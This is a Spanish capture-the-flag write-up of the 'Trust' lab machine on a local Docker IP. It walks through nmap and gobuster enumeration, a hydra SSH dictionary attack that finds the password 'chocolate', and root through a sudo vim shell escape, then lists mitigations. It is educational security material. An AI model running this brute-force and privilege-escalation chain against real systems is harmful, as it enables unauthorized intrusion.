

# Trust — DockerLabs Writeup

**Platform:** DockerLabs | **Difficulty:** Very Easy | **Target IP:** 172.17.0.2 

## Descripcion 

La máquina presenta una cadena de ataque basada principalmente en la enumeración de servicios, el descubrimiento de información mediante fuzzing web, el uso de credenciales débiles y una configuración insegura de sudo

## Attack Chain

**Nmap → Web Fuzzing → User Disclosure → SSH Brute Force → SSH Access → Sudo/Vim Abuse → Root**

### 1. Identificacion de servicios y puertos abiertos.

```
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/01-muy-faciles/trust]
└─$ sudo nmap -sC -sV 172.17.0.2         
[sudo] password for mariano: 
Starting Nmap 7.99 ( https://nmap.org ) at 2026-10-01 16:14 -0300
Nmap scan report for 172.17.0.2
Host is up (0.0000070s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u10 (protocol 2.0)
| ssh-hostkey: 
|   256 5e:b9:df:0a:50:2a:f0:91:1a:eb:98:0b:48:48:65:7a (ECDSA)
|_  256 25:57:77:23:b1:fc:32:bf:af:02:f6:1e:50:ad:0c:8c (ED25519)
80/tcp open  http    PHP cli server 5.5 or later
|_http-title: Apache2 Debian Default Page: It works
MAC Address: B6:D0:1D:68:76:1B (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.23 seconds

```
Como se menciono en la descripcion de la maquina, hay un servicio web y un SSH disponible, ingresamos a la pagina y vemos lo siguiente:



No tenemos informacion relevante, por lo que avanazamos con el siguiente paso.

## 2. Fuzzing web.

Realizamos fuzzing a la IP del servidor para encontrar algun directorio o enlace oculto que pueda aportarnos informacion.

```
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/raft-large-files.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Extensions:              html,txt,js,php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
Progress: 0 / 1 (0.00%)
2026/10/02 21:34:47 the server returns a status code that matches the provided options for non existing urls. http://172.17.0.2/648f0e2a-2c15-4c6f-83c7-5e38ed96e0c2 => 200 (Length: 10701). Please exclude the response length or the status code or set the wildcard option.. To continue please exclude the status code or the length

```
Nos da el siguiente problema al intentar hacer web fuzzing con gobuster, excluimos por respuesta de 10701 ya que al hacer una peticion la cual es falsa nos responde ok de todas maneras.

```
┌──(mariano㉿Kaotic)-[~]
└─$ curl -s -I http://172.17.0.2/pagina_que_no_existe_123
HTTP/1.1 200 OK
Host: 172.17.0.2
Date: Fri, 02 Oct 2026 20:28:30 GMT
Connection: close
Content-Type: text/html; charset=UTF-8
Content-Length: 10701
                                                                                                           
┌──(mariano㉿Kaotic)-[~]
└─$ curl -s http://172.17.0.2/pagina_que_no_existe_123 | wc -c
10701
                                                                                                                          
┌──(mariano㉿Kaotic)-[~]
└─$ curl -s -I http://172.17.0.2                              
HTTP/1.1 200 OK
Host: 172.17.0.2
Date: Fri, 02 Oct 2026 20:28:58 GMT
Connection: close
Content-Type: text/html; charset=UTF-8
Content-Length: 10701

```
Excluimos por lo dicho anteriormente y utlizamos un diccionario de seclists para poder ampliar la busqueda

```
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/01-muy-faciles/trust]
└─$ gobuster dir \ -u http://172.17.0.2/ \ -w /usr/share/seclists/Discovery/Web-Content/raft-large-files.txt -x php,html,htm,txt,bak,old,zip,conf,config,log --exclude-length 10701  

===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/raft-large-files.txt
[+] Negative Status codes:   404
[+] Exclude Length:          10701
[+] User Agent:              gobuster/3.8.2
[+] Extensions:              php,htm,txt,zip,log,html,bak,old,conf,config
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
secret.php           (Status: 200) [Size: 927]
Progress: 407550 / 407550 (100.00%)
===============================================================
Finished
===============================================================

```
Obtenemos el resultado secret.php, el cual al ingresar desde el navegador web es el siguiente:


Deducimos que es la pista para el usuario del servicios SSH y procedemos a utilizar hydra.

## 3. Hydra fuerza bruta.

Teniendo como pista el posible usuario usamos hydra para obtener la clave mediante fuerza bruta 

```                                                                                                                            
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/01-muy-faciles/trust]
└─$ sudo hydra -l mario -P /usr/share/wordlists/rockyou.txt -t 4 -f 172.17.0.2 ssh
[sudo] password for mariano: 
Sorry, try again.
[sudo] password for mariano: 
Hydra v9.7 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2026-10-01 22:20:50
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: mario   password: chocolate
[STATUS] attack finished for 172.17.0.2 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2026-10-01 22:21:17

```
Obtenemos la contraseña del usuario, del servicio SSH, continuamos con la conexion e intento de escalada de privilegios.

## 4. Conexion SSH y escalada de privilegios.

```  
┌──(mariano㉿Kaotic)-[~]
└─$ ssh mario@172.17.0.2              
mario@172.17.0.2's password: 
Linux d068fb5f8e4d 7.1.5+kali-amd64 #1 SMP PREEMPT_DYNAMIC Kali 7.1.5-1kali1 (2026-07-29) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Oct  2 18:49:12 2026 from 172.17.0.1
mario@d068fb5f8e4d:~$ sudo /usr/bin/vim -c ':!/bin/bash'
[sudo] password for mario: 

root@d068fb5f8e4d:/home/mario# whoami
root
root@d068fb5f8e4d:/home/mario#
 
```  
Se escala privilegios mediante la mala configuracion de permisos, usamos el payload de GTFOBins y obtenemos root.

# Conclusión

A partir del escaneo inicial con Nmap fue posible identificar los servicios SSH y Apache. Mediante el fuzzing del servidor web se descubrió un recurso que permitió obtener un usuario válido del sistema. Posteriormente, mediante un ataque de diccionario contra SSH utilizando Hydra, fue posible obtener su contraseña y acceder al sistema. Finalmente, la configuración de `sudo` permitía ejecutar `Vim` con privilegios elevados, lo que permitió escapar del editor y obtener una shell con privilegios `root`.

| Vulnerabilidad / Mala configuración                     | Impacto                                                                                                                                                            | Mitigación                                                                                                                                                      |
| ------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------ | --------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **Recursos web accesibles y no documentados**           | El fuzzing permitió descubrir un recurso que no era evidente durante la navegación normal y que contenía información útil para continuar el ataque.                | Revisar periódicamente los recursos expuestos por los servidores web y evitar publicar información o funcionalidades que no sean necesarias.                    |
| **Exposición de un usuario válido del sistema**         | El recurso descubierto permitió identificar un usuario existente, facilitando posteriores intentos de autenticación contra SSH.                                    | Evitar exponer nombres de usuario o información interna en aplicaciones y recursos web.                                                                         |
| **Contraseña débil y susceptible a fuerza bruta**       | La contraseña del usuario pudo ser descubierta mediante un ataque de diccionario contra el servicio SSH utilizando Hydra.                                          | Utilizar contraseñas largas, únicas y resistentes a ataques de diccionario. Implementar políticas de contraseñas adecuadas.                                     |
| **SSH accesible mediante autenticación por contraseña** | Al disponer de un usuario válido y su contraseña, fue posible obtener acceso remoto al sistema mediante SSH.                                                       | Preferir autenticación mediante claves SSH y deshabilitar la autenticación por contraseña cuando sea posible.                                                   |
| **Configuración insegura de `sudo`**                    | El usuario podía ejecutar `/usr/bin/vim` mediante `sudo`, permitiendo utilizar las funcionalidades del editor para ejecutar comandos con privilegios elevados.     | Aplicar el principio de mínimo privilegio y limitar las reglas de `sudo` únicamente a los comandos estrictamente necesarios.                                    |
| **Permiso `sudo` sobre Vim**                            | Debido a las capacidades de Vim para ejecutar comandos del sistema, su ejecución mediante `sudo` puede utilizarse para obtener una shell con privilegios elevados. | Evitar permitir aplicaciones que puedan ejecutar comandos arbitrarios mediante `sudo`. Revisar periódicamente las reglas de `/etc/sudoers` y `/etc/sudoers.d/`. |
| **Escalada de privilegios hasta `root`**                | La combinación de las credenciales comprometidas y la configuración insegura de `sudo` permitió obtener control completo del sistema.                              | Auditar periódicamente credenciales, permisos, reglas de `sudo` y servicios expuestos. Aplicar siempre el principio de mínimo privilegio.                       |

## Recomendaciones generales

* Revisar los recursos y archivos expuestos por los servicios web.
* Evitar exponer información que pueda facilitar la identificación de usuarios del sistema.
* Utilizar contraseñas robustas, largas y únicas.
* Evitar contraseñas predecibles o presentes en diccionarios comunes.
* Preferir autenticación mediante **claves SSH** en lugar de contraseñas.
* Implementar mecanismos de protección contra ataques de fuerza bruta.
* Restringir el acceso al servicio SSH únicamente a los usuarios que lo necesiten.
* Revisar periódicamente las reglas configuradas en `/etc/sudoers` y `/etc/sudoers.d/`.
* Evitar permitir mediante `sudo` aplicaciones que puedan ejecutar comandos arbitrarios como `root`.
* Aplicar el principio de **mínimo privilegio**.
* Auditar periódicamente los servicios y puertos expuestos en el sistema.
